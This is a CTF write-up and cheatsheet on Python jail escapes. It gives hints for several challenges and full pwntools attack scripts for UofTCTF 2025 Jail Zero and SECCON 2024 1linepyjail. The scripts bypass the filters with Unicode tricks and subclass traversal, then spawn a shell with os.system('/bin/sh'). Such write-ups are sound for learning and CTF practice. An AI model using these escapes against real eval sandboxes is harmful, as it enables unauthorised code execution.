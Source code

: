# Python jail

References:

- [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

## WHY2025 CTF TitleCase

Use unicode bypass to avoid `str.title()`.

Visit [here](../2025-08-08-why2025/misc/title-case.md).

## FortID CTF 2025 Michael Scottfield

Requirements:

1. Length <= 500: Easy to achieve
2. Allow `()` but no parameters: Use `pdb.set_trace()` or `code.InteractiveConsole().interact()`
3. No strings: Use docstrings and `str[index]` to create strings
3. No numbers: Use `True` as 1
4. No builtins: Use `().__class__.__base__.__subclasses__()`

Details [here](../2025-09-12-fortid-ctf-2025/michael-scottfield.md)

## UofTCTF 2025 Jail Zero

```python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

Requirements:

1. No alphabetic: Use [Unicode Block “Mathematical Alphanumeric Symbols”](https://www.compart.com/en/unicode/block/U+1D400) to bypass
2. No numbers: Use `(''=='')` as 1
3. No double underscores: Use [FULLWIDTH LOW LINE](https://unicode-explorer.com/c/FF3F)
4. No builtins: Use `().__class__.__base__.__subclasses__()`

Then, we can use existing way to get to `code.InteractiveConsole().interact()`:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `code` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__`
4. Execute `sys.modules["code"].InteractiveConsole().interact()`

Attack script:

```python
from pwn import *

context(log_level="debug")


# unicode bypass helper
def transform(text):
    encoded = ""
    # full width low line
    underscore = chr(0xFF3F)
    text = text.replace("__", "_" + underscore)
    for ch in text:
        if ch.isalpha():
            if ch >= "a" and ch <= "z":
                encoded += chr(ord(ch) + 0x1D41A - ord("a"))
            elif ch >= "A" and ch <= "Z":
                encoded += chr(ord(ch) + 0x1D400 - ord("A"))
            else:
                assert False
        else:
            encoded += ch
    print("before", text)
    print("after", encoded)
    return encoded


# step 1. locate Helper and Printer
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(transform("().__class__.__base__.__subclasses__()").encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# A is 10, B is 100

true = "(''=='')"
ten = "+".join([true] * 10)


def get_index(index):
    parts = (
        [true] * (index % 10) + ["A"] * (index // 10 % 10) + ["B"] * (index // 100 % 10)
    )
    return "+".join(parts)


# H for index of helper
helper = get_index(helper_index)
print(helper)


# find help text of helper
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},S:=().__class__.__base__.__subclasses__()[H].__doc__]"
    ).encode()
)
help_text = eval(p.recvline().decode())[-1]

# P for index of printer

printer = get_index(printer_index)
print(printer)


# synthesize "sys" and "code"
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},P:={printer},S:=().__class__.__base__.__subclasses__()[H].__doc__,"
        # step 2. call help()
        + f"().__class__.__base__.__subclasses__()[H]()(),"
        # step 3. locate sys module
        + f"M:=().__class__.__base__.__subclasses__()[P].__init__.__globals__[{synthesize('sys')}],"
        # step 4. call sys.modules["code"].InteractiveConsole().interact()
        + f"M.modules[{synthesize('code')}].InteractiveConsole().interact()]"
    ).encode()
)
p.recvuntil(b"help> ")
# step 2. load code module in help() system
p.sendline(b"code")
p.sendline(b"quit")
p.sendline(b"import os")
p.sendline(b'os.system("/bin/sh")')
p.interactive()
```

## SECCON 2024 Quals 1linepyjail

```python
print(eval(code, {"__builtins__": None}, {}) if len(code := input("jail> ")) <= 100 and __import__("re").fullmatch(r'([^()]|\(\))*', code) else ":(")
```

Requirements:

1. Length <= 100: Try hard to reduce input length
2. Allow `()` but no parameters: Use `pdb.set_trace()`
3. No builtins: Use `().__class__.__base__.__subclasses__()`

Steps:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `pdb` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__` and execute `sys.modules['pdb'].set_trace()`

Attack script:

```python
from pwn import *

context(log_level="debug")

# step 1. locate Helper and Printer
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline("().__class__.__base__.__subclasses__()".encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# step 2. call help() to load pdb module
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{helper_index}]()()"
    ).encode()
)
# load pdb and return to jail
p.sendline(b"pdb")
p.sendline(b"jail")
p.recvuntil(b"jail>")
# step 3. locate sys module and call `sys.modules['pdb'].set_trace()`
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['pdb'].set_trace()"
    ).encode()
)
# in pdb
p.recvuntil(b"(Pdb) ")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['os'].system('/bin/sh')"
    ).encode()
)
p.interactive()
```
